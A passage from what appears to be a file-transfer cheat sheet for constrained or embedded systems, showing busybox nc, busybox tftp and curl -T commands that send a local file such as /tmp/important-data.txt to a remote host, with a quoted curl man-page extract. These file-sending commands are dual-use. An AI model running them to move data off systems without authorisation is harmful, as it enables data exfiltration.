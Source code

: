 ##### Sender

```
cat /tmp/important-data.txt | busybox nc 192.168.0.123:12345 
```

#### TFTP by ''busybox tftp''

##### Receiver

Setup a tftp server

##### Sender

```
busybox tftp -p -l /tmp/important-data.txt -r important-data.txt 192.168.0.123
```

#### Use Curl to upload

Depending on what is compiled into your curl binary if available you may also be able to auth, use ftp/tftp etc. Extracts from curl man page:

```
It supports these protocols: DICT, FILE, FTP, FTPS, GOPHER, GOPHERS,
       HTTP, HTTPS, IMAP, IMAPS, LDAP, LDAPS, MQTT, POP3, POP3S, RTMP, RTMPS, RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET,  TFTP,  WS
       and WSS. The command is designed to work without user interaction.
            
       curl  offers  a busload of useful tricks like proxy support, user authentication, FTP upload, HTTP post, SSL connections, cookies,
       file transfer resume and more. As you will see below, the number of features will make your head spin.
```

```
       -T, --upload-file <file>
              This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will  append
              the  local  file  name.  NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no
              file name or curl will think that your last directory name is the remote file name to use. That will most likely cause  the
              upload operation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

              Use  the  file name "-" (a single dash) to use stdin instead of a given file.  Alternately, the file name "." (a single pe‐
              riod) may be specified instead of "-" to use stdin in non-blocking mode to allow reading server output while stdin is being
              uploaded.

              You can specify one -T, --upload-file for each URL on the command line. Each -T, --upload-file + URL pair specifies what to
              upload and to where. curl also supports "globbing" of the -T, --upload-file argument, meaning that you can upload  multiple
              files to a single URL by using the same URL globbing style supported in the URL.

              When  uploading  to  an SMTP server: the uploaded data is assumed to be RFC 5322 formatted. It has to feature the necessary
              set of headers and mail body formatted correctly by the user as curl will not transcode nor encode it further in any way.

              -T, --upload-file can be used several times in a command line

              Examples:
               curl -T file https://example.com
               curl -T "img[1-1000].png" ftp://ftp.example.com/
```
